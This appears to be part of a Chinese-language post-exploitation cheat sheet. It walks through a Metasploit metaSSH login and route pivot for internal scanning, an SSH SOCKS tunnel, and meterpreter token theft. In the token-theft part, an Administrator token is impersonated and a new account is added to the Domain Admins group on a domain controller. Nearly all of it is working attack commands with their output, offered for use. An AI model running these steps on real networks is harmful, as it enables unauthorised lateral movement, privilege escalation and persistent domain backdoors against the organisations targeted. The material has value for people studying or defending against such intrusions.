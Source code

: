     
    
    msf > load meta_ssh
    msf > use multi/ssh/login_password
    msf > set RHOST 192.168.56.3
    RHOST => 192.168.56.3
    msf > set USER test
    USER => test
    msf > set PASS reverse
    PASS => reverse
    msf > set PAYLOAD ssh/metassh_session
    PAYLOAD => ssh/metassh_session
    msf > exploit -z
    [*] Connecting to [[email protected]](/cdn-cgi/l/email-protection):22 with password reverse
    [*] metaSSH session 1 opened (127.0.0.1 -> 192.168.56.3:22) at 2011-12-28   03:51:16 +1300
    [*] Session 1 created in the background.
    msf > route add 192.168.57.0 255.255.255.0 1
    

之后就是愉快的内网扫描了

当然还是推荐直接用

    
    
    ssh -f -N -D 127.0.0.1:6666 [[email protected]](/cdn-cgi/l/email-protection)
    

### 偷取Token

    
    
    meterpreter>ps #查看目标机器进程，找出域控账户运行的进程ID
    meterpreter>steal_token pid
    

方法2

    
    
    meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM
    meterpreter > load incognito
    Loading extension incognito...success.
    meterpreter > list_tokens -u    
    
    Delegation Tokens Available
    ========================================
    IIS APPPOOL\zyk
    NT AUTHORITY\IUSR
    NT AUTHORITY\LOCAL SERVICE
    NT AUTHORITY\NETWORK SERVICE
    NT AUTHORITY\SYSTEM
    QLWEB\Administrator    
    
    Impersonation Tokens Available
    ========================================
    NT AUTHORITY\ANONYMOUS LOGON    
    
    meterpreter > impersonate_token QLWEB\\Administrator
    [+] Delegation token available
    [+] Successfully impersonated user QLWEB\Administrator
    meterpreter > getuid
    Server username: QLWEB\Administrator
    meterpreter>add_user 0xfa funny –h192.168.3.98  #在域控主机上添加账户
    meterpreter>add_group_user “DomainAdmins” 0xfa –h192.168.3.98   #将账户添加至域管理员组
    